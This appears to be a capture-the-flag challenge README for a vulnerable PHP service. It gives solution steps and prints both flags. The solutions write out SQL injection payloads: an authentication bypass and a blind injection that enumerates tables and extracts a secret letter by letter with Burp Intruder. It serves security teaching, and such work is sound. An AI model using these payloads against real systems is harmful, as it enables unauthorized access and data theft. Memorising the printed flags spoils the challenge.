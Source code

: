 # 5ql1

## Legend

### Easy Auth (Easy)

#### RU

Сегодня каждый станет администратором.

#### EN

Today, everyone will become an administrator.

### Blind SQLi (Hard)

#### RU

Вы действительно хотите узнать, насколько глубока эта кроличья нора?

#### EN

Are you really wanna go down that rabbit hole?

## Description

Simpe SQL injections in PHP service.

## Solutions

1. Try to inject something like `'or 1='1` after parameters. Flag is waiting for you at `welcome.php` page.

2.1. So, we have blind SQL injection and the conditions are: if sql query returns true (with injection in password field), we will be redirected to `welcome.php` page or we will have an error in other way.

2.2. Of course, we are dealing with MySQL and can dump some table names with a query like `' or (select count(*) from information_schema.tables where table_name LIKE '%flag%') > 0 and '1' = '1`. 

2.3. We need to know the table name where the flag is stored and than we can start to guess column names with something like `' or (select count(*) from information_schema.tables where table_name = 'secret' and column_name = 'flag') > 0 and '1' = '1`. 

2.4. Than we can prepare our payload for Burp Suite: let's use `' or (select SUBSTR(flag, 1, 1) from secret) = '$a$' and '1' = '1` in intruder, where '$a$' is a parameter name with values in range `A-Z, a-z, 0-9, _, {, }`.

2.5. Do that in a loop changing `SUBSTR(flag, 1, 1)` to `SUBSTR(flag, 2, 1)` and so on. This method will give us full flag letter by letter.

## Flags

**HITS{g00d_st4rt_br0}**

**HITS{r34lly_un3xp3ct3d_4ch13v3m3nt_f0r_4_h175_57ud3n7}**

## Handout

*nothing*

## Acknowledgements

Service originally made by https://github.com/dnyaneshwargiri
